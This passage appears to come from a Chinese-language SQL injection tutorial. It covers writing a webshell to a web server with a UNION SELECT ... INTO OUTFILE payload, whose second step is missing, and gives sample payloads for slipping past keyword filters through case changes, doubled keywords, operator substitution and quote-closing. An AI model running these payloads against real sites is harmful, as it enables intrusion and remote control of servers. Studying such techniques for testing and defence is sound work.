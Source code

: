 ### 2.2.7 sql-injection remote code execution

```python
通过sql注入，直接写入webshell文件到服务器，
用get方法或者post方法提交并执行外部命令，方便后续进一步远程控制，提权等。

step1:写文件（前提是要有写的权限）
SELECT * FROM heroes WHERE id=1 UNION SELECT 1,2,3,'hello' INTO OUTFILE '/var/www/html/a.php


step2:
```

## 2.3 SQL绕过技术

### 2.3.1 大小写绕过

```shell
比如，如果发现and被代码拦截，则使用AND或者And或者anD等来绕过代码检测。

主要解决的问题是：
要渗透的系统在代码层面过滤了纯大写或者纯小写的关键字。

PS：数据库是不校验大小的(一般而言)，是代码层进行的过滤。
```

### 2.3.2 双写绕过

```shell
比如，如果发现or或and(不区分大小写)均被替换掉了，则传参时，传递两次即可，
如oorr或anandd。

主要解决的问题是：
要渗透的系统在代码层面对关键字进行了替换。
```

### 2.3.3 关键字等价绕过

```shell
比如，如果发现or或and(不区分大小写)均被替换掉了，则传参时，用等价的关键字，
如：&&替换and，|| 替换or。

主要解决的问题是：
要渗透的系统在代码层面对关键字进行了替换。
```

### 2.3.4 去除注释绕过

```shell
比如，如果发现#或者--等注释符号均被替换掉了，
则传参时，在最后一个字符之前用一个单引号来闭合查询，
如：http://localhost:9093/less?id=-1' UNION SELECT DATABASE(),'3
或http://localhost:9093/less?id=-1' UNION SELECT DATABASE(),3 or '1'='1
最终SQL为：
SELECT * FROM tb_stu WHERE id='-1' UNION SELECT DATABASE(),'3' LIMIT 0,1;

主要解决的问题是：
要渗透的系统在代码层面对注释符号#或者--进行了替换。
```
